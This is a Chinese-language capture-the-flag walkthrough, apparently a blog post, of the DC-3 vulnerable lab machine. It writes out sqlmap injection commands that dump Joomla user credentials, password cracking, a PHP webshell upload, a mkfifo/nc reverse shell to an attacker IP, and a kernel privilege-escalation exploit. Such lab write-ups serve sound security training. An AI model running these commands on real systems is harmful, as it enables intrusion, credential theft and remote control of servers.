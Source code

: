 ```yaml
---
title: DC-3复现
---
```

# DC-3复现

## 描述

> DC-3 是另一个特意建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 与之前的 DC 版本一样，这个版本是为初学者设计的，虽然这一次，只有一个标志，一个入口点，根本没有任何线索。
>
> 必须具备 Linux 技能和熟悉 Linux 命令行，以及一些基本渗透测试工具的经验。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你可以随时在@DCAU7 上给我发推文，寻求帮助，让你重新开始。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 对于那些有 CTF 和 Boot2Root 挑战经验的人来说，这可能不会花你很长时间（事实上，它可能会花费你不到 20 分钟的时间）。
>
> 如果是这种情况，并且如果您希望它更具挑战性，您可以随时重做挑战并探索其他获得根和获得旗帜的方法。

## 开始

### 信息收集

- 扫描C段看找到目标机器的ip

![image-20220605024811027](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605024811027.png)

- 然后看都开了哪些端口，扫到了80端口

![image-20220605024905636](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605024905636.png)

- 直接访问ip看到这个网站用的是joomla的框架，那我们可以尝试利用joomscan工具获取更加详细的信息

![image-20220605025205577](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605025205577.png)

- 因为kali并没有集成该工具，所以需要下载
- 安装命令 `apt install joomscan`
- 安装好之后利用工具查看版本等信息 `joomscan -u http://192.168.207.142/`

![image-20220605025824356](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605025824356.png)

- 在报告中不仅仅看到了版本信息，还有后台的管理地址
- 再利用searchploit查找有关的漏洞

![image-20220605030809920](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605030809920.png)

- 再用命令查看txt文本 `cat /usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image-20220605031036970](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605031036970.png)

- 从中我们得知漏洞的利用方法

### 渗透开始

#### sqlmap

- 直接跑payload

```sql
sqlmap -u "http://192.168.20.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

- 得到了5个数据库，直接查看joomladb数据库中的表

![image-20220605032447411](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605032447411.png)

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220605032852389](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605032852389.png)

- 查列名

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" --columns   -p list[fullordering]
```

![image-20220605040539515](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605040539515.png)

- 查找字段信息

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -C "name,password,username" --dump   -p list[fullordering]

```

![image-20220605040758091](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605040758091.png)

#### john破解

- 得到密码：snoopy

![image-20220605041557479](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605041557479.png)

#### 传马

- 然后进入前面找到的后台管理地址，发现该网站可以上传一句话木🐎，那就传，然后用蚁剑连接

![image-20220605043121693](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043121693.png)

- 随便点一个

![image-20220605043207589](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043207589.png)

- 新建一个php文件用来传马

![image-20220605043329807](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043329807.png)

- 找到新建的php文件并写入马的内容，并保存

![image-20220605043532371](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043532371.png)

#### 蚁剑连接

- 打开蚁剑连接

![image-20220605044206406](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605044206406.png)

#### 反弹shell

```txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.207.129 443 >/tmp/f
```

![image-20220605051113753](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605051113753.png)

#### 漏洞利用

- 用命令uname -a查看内核版本，经过百度对应的是Ubuntu 16.04

![image-20220605051135777](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605051135777.png)

- 再次利用searchsploit查找有关Ubuntu 16.04的漏洞

![image-20220605045904252](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605045904252.png)

- 打开文件并查看漏洞利用方法

![image-20220605050130615](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605050130615.png)

- 下载exp到靶机上，并解压

![](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052037421.png)

> 解压后依次进入39772文件夹
>
> 再解压exploit.tar，然后再进入ebpf_mapfd_doubleput_exploit，并运行./compile.sh，然后再运行./doubleput

![image-20220605052434258](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052434258.png)

- 然后在进到root目录，就看到了flag

![image-20220605052534589](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052534589.png)

- 最后再cat一下就得到flag

![image-20220605052605567](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052605567.png)
